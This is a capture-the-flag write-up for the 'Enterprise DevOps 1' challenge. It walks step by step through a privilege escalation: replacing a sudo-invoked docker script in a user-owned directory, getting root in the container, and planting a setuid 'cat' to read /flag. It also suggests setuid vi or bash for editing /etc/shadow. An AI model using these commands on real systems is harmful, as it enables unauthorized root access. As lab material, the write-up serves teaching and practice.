 ### Enterprise DevOps 1

_After compromising the left-pad NPM package by guessing the author's NPM credentials (which happened to be the name of his cat, Lucy), you ended up with a shell somewhere deep inside a random company's continuous integration infrastructure._

_Your goal is to escalate your privileges through this multi-stage challenge and pivot through the company network. Each stage of the challenge has its own flag - this is part 1._

_See more details on the dedicated challenge page: [https://devops.allesctf.net/](https://devops.allesctf.net/)_

_Your session is stateful. Please share it with your team members - we have limited capacities. Terminate it unless you're currently working on it._

_The flag format is different for this challenge._


Tags: _pwn_


#### Solution

After visiting and reading [https://devops.allesctf.net/](https://devops.allesctf.net/) you are given the option to create a VM and start hacking.  My session ID was `0b0bda088a0a8dc59ab4981d`.

Login:

```
ssh 0b0bda088a0a8dc59ab4981d@broker1.allesctf.net
```

No password was required, at this point I have the following prompt:

```
[build@0b0bda088a0a8dc59ab4981d_stage1 ~]$
```

And, I am logged in as the user `build`.

One of the hints from [https://devops.allesctf.net/](https://devops.allesctf.net/):  _Find hidden clues (except for the flag, which is located at an obvious place like /flag)._

Sure enough, there's the flag:

```
$ ls -l /flag

----------. 1 root root 107 May  2 13:02 /flag
```

And yeah:

```
$ cat /flag

cat: /flag: Permission denied
```

Fail.

I tried to `sudo -s` and `su - root` using the password `Lucy` from the description--no luck.  I also tried different ways to spell `Lucy`, also no luck.

Moving on...

The only thing of interest in build's home dir is a `build.sh` script with the following contents:

```
#!/bin/bash

sudo /usr/bin/docker run -it -v /opt/build-input\:/work fedora\:29 /work/run.sh
```

When executed I get an awesome Tetris clone written in BASH:

![](devops1-1.png)

I can run that `sudo` line the following way as well:

```
sudo docker run -it -v /opt/build-input:/work fedora:29 /work/run.sh
```

And that is about it.  Any other alteration (sans remove the `\`'s or adding whitespace) yields a prompt to put in your password for sudo access:

```
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for build: 
```

Next I looked at `/opt/build-input`:

```
$ ls -ld /opt/build-input/

drwx------. 3 build build 78 Aug 24 23:55 /opt/build-input/

$ ls -l /opt/build-input/

-rwxrwxr-x. 1 root  root    15834 May  2 13:02 run.sh
```

Looks like I own `build-input`, but not `run.sh`, this is easy to fix:

```
$ cd /opt/build-input/
$ mv run.sh foo.sh
$ echo '#!/bin/bash' >run.sh
$ echo 'bash' >>run.sh
$ chmod 775 run.sh
$ ls -l

-rwxrwxr-x. 1 root  root    15834 May  2 13:02 foo.sh
-rwxrwxr-x  1 build build      17 Aug 24 22:15 run.sh
```

Since I own the directory I can change the metadata of a file, e.g. rename `run.sh` to `foo.sh`.  And since I own the directory I can create a new `run.sh` that just executes `bash`.

Now lets try that sudo again:

```
$ sudo docker run -it -v /opt/build-input:/work fedora:29 /work/run.sh
[root@eed1a444ddb6 /]# 
```

I have a root shell (in a container).

The `fedora:29` image does not have the `/` volume mounted, so there's no direct access to `/flag`, but I'm home free at this point.

```
# cp /bin/cat /work
# chmod +s /work/cat
# exit
```

The above copies the `cat` command to `/work` (i.e. `/opt/build-input` outside of the container) and sets the setuid bit.  Since I'm `root` within the container this gets written as a root owned file.  With the setuid bit set, a mere mortal can run the special `cat` command as if root:

```
$ ls -l /opt/build-input/cat

-rwsr-sr-x  1 root  root    52120 Aug 24 23:48 cat
```

Look at them lovely `s`'s.

Capture the flag:

```
$ /opt/build-input/cat /flag

STAGE1_ahpeeHahy7aingea8ahr6

You have successfully compromised this host. It's time to spread your wings!
```

Other commands can be copied over and setuid'd, e.g. `vi` if you want to edit `/etc/shadow` and set root's password, `bash` (invoke with `-p`), etc...
